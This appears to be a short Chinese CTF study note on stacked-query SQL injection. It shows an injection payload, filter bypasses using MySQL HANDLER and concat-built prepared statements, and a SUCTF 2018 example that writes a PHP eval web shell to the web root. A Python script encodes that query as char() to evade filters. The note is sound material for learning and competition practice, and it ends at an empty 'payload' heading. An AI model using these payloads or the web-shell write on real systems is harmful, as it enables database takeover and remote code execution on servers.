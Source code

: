 

##### payload

```php
?id=1';sql语句;--+
```

可以任意执行sql语句，危害很大



###### 配合handle绕过关键字

[【MySQL】MySQL 之 handler 的详细使用及说明](https://blog.csdn.net/qq_43427482/article/details/109898934)

```mysql
handler 表名  open ; handler 表名 read first; #打开表；读取第一条数据
handler 表名 read next;#与上一条语句一起用，读取下一条即第二条数据
```





###### 配合预编译语句绕过

使用格式

```mysql
set @tn = 'hahaha';  //存储表名
set @sql = concat('select * from ', @tn);  //存储SQL语句

prepare query from @sql;   //预定义SQL语句

execute query;  //执行预定义SQL语句

(DEALLOCATE || DROP) prepare sqla;  //删除预定义SQL语句
```

##### 例题

[SUCTF 2018]MultiSQL

```mysql
set @sql=select '<?php eval($_POST[khaz]);?>' into outfile '/var/www/html/favicon/shell3.php';prepare name from @sql;execute name;
```

转换脚本

```python
a = "select '<?php eval($_POST[khaz]);?>' into outfile '/var/www/html/favicon/shell3.php'"
b = []
for i in a:
    b.append(str(ord(i)))
c=','.join(b)
res = 'char({})'.format(c)
print(res)
```

payload
